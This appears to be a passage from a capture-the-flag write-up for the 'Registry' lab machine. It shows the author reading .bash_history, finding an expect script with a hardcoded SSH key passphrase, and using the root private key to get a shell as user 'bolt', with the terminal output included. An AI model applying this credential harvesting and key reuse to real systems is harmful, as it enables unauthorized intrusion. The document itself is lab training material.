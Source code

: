 Found intresting file and directories in `root` directory
- `.ssh`
- `.bash_history`

Reading files mentioned in `.bash_history` I found password for ssh
```sh
➜ cat ../etc/profile.d/02-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
Using the private key in `.ssh/id_rsa` and password we obtain user shell
```
➜ ssh -i .ssh/id_rsa bolt@registry.htb
Enter passphrase for key '.ssh/id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sun Oct 27 08:47:18 UTC 2019

  System load:  0.12              Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 36%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    182
Last login: Sun Oct 27 08:46:42 2019 from 10.10.14.185
bolt@bolt:~$ 
```

I found `bolt` directory in /var/www/html/ which turns out be CMS website

Login page can be found at `http://registry.htb/bolt/bolt`

![](images/bolt_login.png)
